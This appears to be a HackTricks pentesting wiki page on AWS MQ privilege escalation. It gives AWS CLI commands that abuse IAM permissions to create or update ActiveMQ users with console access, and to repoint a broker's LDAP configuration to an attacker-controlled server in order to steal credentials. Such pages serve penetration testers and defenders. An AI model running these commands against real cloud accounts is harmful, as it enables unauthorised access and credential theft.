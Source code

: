 # AWS - MQ Privesc

{{#include ../../../../banners/hacktricks-training.md}}

## MQ

For more information about MQ check:

{{#ref}}
../../aws-services/aws-mq-enum.md
{{#endref}}

### `mq:ListBrokers`, `mq:CreateUser`

With those permissions you can **create a new user in an ActimeMQ broker** (this doesn't work in RabbitMQ):

```bash
aws mq list-brokers
aws mq create-user --broker-id <value> --console-access --password <value> --username <value>
```

**Potential Impact:** Access sensitive info navigating through ActiveMQ

### `mq:ListBrokers`, `mq:ListUsers`, `mq:UpdateUser`

With those permissions you can **create a new user in an ActimeMQ broker** (this doesn't work in RabbitMQ):

```bash
aws mq list-brokers
aws mq list-users --broker-id <value>
aws mq update-user --broker-id <value> --console-access --password <value> --username <value>
```

**Potential Impact:** Access sensitive info navigating through ActiveMQ

### `mq:ListBrokers`, `mq:UpdateBroker`

If a broker is using **LDAP** for authorization with **ActiveMQ**. It's possible to **change** the **configuration** of the LDAP server used to **one controlled by the attacker**. This way the attacker will be able to **steal all the credentials being sent through LDAP**.

```bash
aws mq list-brokers
aws mq update-broker --broker-id <value> --ldap-server-metadata=...
```

If you could somehow find the original credentials used by ActiveMQ you could perform a MitM, steal the creds, used them in the original server, and send the response (maybe just reusing the crendetials stolen you could do this).

**Potential Impact:** Steal ActiveMQ credentials

{{#include ../../../../banners/hacktricks-training.md}}




